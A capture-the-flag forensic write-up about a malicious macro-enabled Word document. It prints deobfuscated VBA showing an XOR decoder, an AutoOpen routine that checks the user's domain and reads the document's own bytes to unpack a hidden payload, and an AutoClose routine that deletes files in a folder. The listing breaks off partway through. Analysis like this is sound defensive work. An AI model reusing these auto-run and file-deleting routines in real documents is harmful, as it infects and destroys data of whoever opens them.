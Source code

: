# Game Invitation Forensic Challenge Writeup

## Introduction

This challenge is all about analyzing malware .vba script inside .docm file.

## Solution

Firstly upon looking at a file as an archive (as all office files can be opened as such), I've stumbled upon vba script inside, which, of course, needs to be dug deeper. But there is no point of opening raw vbaProject.bin file, as it will give me just some binary data. For extraction of script I used https://github.com/decalage2/oletools a really amazing python package that helped me get this script in a raw form.

So, already deobfuscated script (base64 decoded and with vars renamed for the ease of reading) looks like this:

```vb

Attribute VB_Name = "NewMacros"
Public IAiiymixt As String
Public var_filepath As String


Function func_xor(given_string() As Byte, length As Long) As Boolean
Dim xor_key As Byte
xor_key = 45
For i = 0 To length - 1
given_string(i) = given_string(i) Xor xor_key
xor_key = ((xor_key Xor 99) Xor (i Mod 254))
Next i
func_xor = True
End Function

Sub AutoClose() 'delete the js script'
On Error Resume Next
Kill IAiiymixt
On Error Resume Next
Set var_scriptingfilesystemobject = CreateObject("Scripting.FileSystemObject")
var_scriptingfilesystemobject.DeleteFile var_filepath & "\*.*", True
Set var_scriptingfilesystemobject = Nothing
End Sub

Sub AutoOpen()
On Error GoTo jumper1
Dim chkDomain As String
Dim strUserDomain As String
chkDomain = "GAMEMASTERS.local"
strUserDomain = Environ$("UserDomain")
If chkDomain <> strUserDomain Then

Else

Dim var_file
Dim file_length As Long
Dim length As Long
file_length = FileLen(ActiveDocument.FullName)
var_file = FreeFile
Open (ActiveDocument.FullName) For Binary As #var_file
Dim var_byte1() As Byte
ReDim var_byte1(file_length)
Get #var_file, 1, var_byte1
Dim var_string As String
```
